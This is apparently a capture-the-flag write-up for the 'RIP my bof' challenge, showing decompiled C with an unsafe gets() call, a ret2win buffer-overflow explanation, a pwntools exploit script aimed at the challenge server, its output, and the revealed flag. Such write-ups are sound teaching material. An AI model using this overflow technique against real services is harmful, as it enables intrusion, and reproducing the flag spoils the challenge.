

# RIP my bof 

> Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?
>
> If you get stuck liveoverflow covers you again!
>
> `nc thekidofarcrania.com 4902`

Let's look at decompilation of the server binary...

```c
08048586    int32_t win()

080485b0        return system(line: "/bin/cat /flag.txt")


080485b1    int32_t vuln()

080485ce        void buf
080485ce        memset(&buf, 0, 0x20)
080485e4        void var_1c
080485e4        memset(&var_1c, 0xff, 0x10)
080485f3        init_visualize(&buf)
08048602        visualize(&buf)
08048614        printf(format: "Input some text: ")
08048623        gets(&buf)
0804863f        return visualize(&buf)


08048640    int32_t main(int32_t argc, char** argv, char** envp)

08048647        void* const __return_addr_1 = __return_addr
0804864e        int32_t* var_10 = &argc
08048668        setbuf(fp: *stdout, buf: nullptr)
0804867e        setbuf(fp: *stdin, buf: nullptr)
08048686        vuln()
08048699        return 0

```

Classic Ret2win, `gets()` is incredibly vulnerable, we overflow the stack and fly into win. We need an offset though, Binja has us covered!



Binja's stack view shows us the entry for `void buf` is at 0x3c which is 60 in decimal. This is the offsets needed to overflow. Final Solution below w/ comments.

```python
from pwn import * # Collection of tools to make ROP easier in CTFS

p = remote("thekidofarcrania.com", 4902) # Specifying our remote (which has our flag)

win = 0x8048586 # Address of Win found in Binary Ninja

payload = b"A"*60 # Using A times our offset we found above
payload += p64(win) # packs the address in little endian

p.recvuntil("Input some text") # waits until the text to input comes in
p.sendline(payload) # sends the payload we sent

p.interactive() # spawns an interactive shell
```

Running it we get...

```bash
 /bin/python3 /home/vipin/ctf/binex/random_challs/ripmybof.py
[+] Opening connection to thekidofarcrania.com on port 4902: Done
/home/vipin/ctf/binex/random_challs/ripmybof.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Input some text")
[*] Switching to interactive mode
: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff910390 | 41 41 41 41 41 41 41 41 |
0xff910398 | 41 41 41 41 41 41 41 41 |
0xff9103a0 | 41 41 41 41 41 41 41 41 |
0xff9103a8 | 41 41 41 41 41 41 41 41 |
0xff9103b0 | 41 41 41 41 41 41 41 41 |
0xff9103b8 | 41 41 41 41 41 41 41 41 |
0xff9103c0 | 41 41 41 41 41 41 41 41 |
0xff9103c8 | 41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
```

Flag: `CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}`

